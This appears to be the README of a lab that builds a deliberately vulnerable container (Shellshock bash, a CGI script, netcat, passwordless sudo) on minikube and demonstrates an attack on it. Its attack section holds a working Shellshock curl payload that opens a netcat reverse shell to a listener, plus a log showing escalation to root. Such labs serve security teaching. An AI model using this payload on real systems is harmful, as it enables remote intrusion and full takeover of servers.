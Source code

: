 # Vulnerable Container Image :smiling_imp:

This is an example of an attack caused by a vulnerable container image.

## Requirements
- CPU Architecture
  - amd64
  - x86_64
  - arm64 (:warning: use the command marked `for arm64`)
- Tools
  - Docker
  - kubectl
  - minikube

## Vulnerability Description

- Bash with [CVE-2014-6271](https://security-tracker.debian.org/tracker/CVE-2014-6271)
- Unnecessary packages such as netcat and sudo
- Root privileges can be obtained without password
- a CGI script

## Setup

1. (Only for `arm64`) Set up for using `amd64` images

  ```bash
  # create a new instance for using `amd64` images
  > docker buildx create --use

  # enable qemu-user-static for using `amd64` images
  > minikube ssh "sudo apt-get update && sudo apt-get -y install qemu-user-static"
  > minikube stop
  > minikube start
  ```

2. Build the vulnerable container image

  ```bash
  > docker buildx build -t vulnerable-container-image .

  # for arm64
  > docker buildx build -t vulnerable-container-image . --platform=linux/amd64 --load
  ```

3. Build the web container image

  ```bash
  > docker buildx build -t web-container-image .

  # for arm64
  > docker buildx build -t web-container-image . --platform=linux/amd64 --load
  ```

4. Load the local images to minikube

  ```bash
  > minikube image load vulnerable-container-image:latest
  > minikube image load web-container-image:latest
  ```

5. Apply k8s manifests

  ```bash
  > kubectl apply -f manifest/pod.yaml
  > kubectl apply -f manifest/service.yaml
  ```

6. Assign the external IP to the load balancer

  ```bash
  > minikube tunnel
  ```


## Attack Scenario

1. Listen to the port 5050 on the host machine

   - Terminal 1

       ```bash
       > ncat -lvnp 5050
       ```
2. Execute the command to establish a connection to the host machine from the vulnerable container
       
   - Terminal 2

        ```bash
        > curl -H "User-Agent: () { :; }; /bin/nc -e /bin/bash ${TERMINAL_IP} 5050" http://${EXTERNAL_IP}:8080/cgi-bin/vulnerable-cgi
        ```

   - Log of Terminal 1

        ```bash
        
        Ncat: Version 7.95 ( https://nmap.org/ncat )
        Ncat: Listening on [::]:5050
        Ncat: Listening on 0.0.0.0:5050
        Ncat: Connection from xxx.xxx.xxx.xxx.
        whoami # input1
        www-data # output1
        sudo su # input2
        whoami # input3
        root # output3
        ```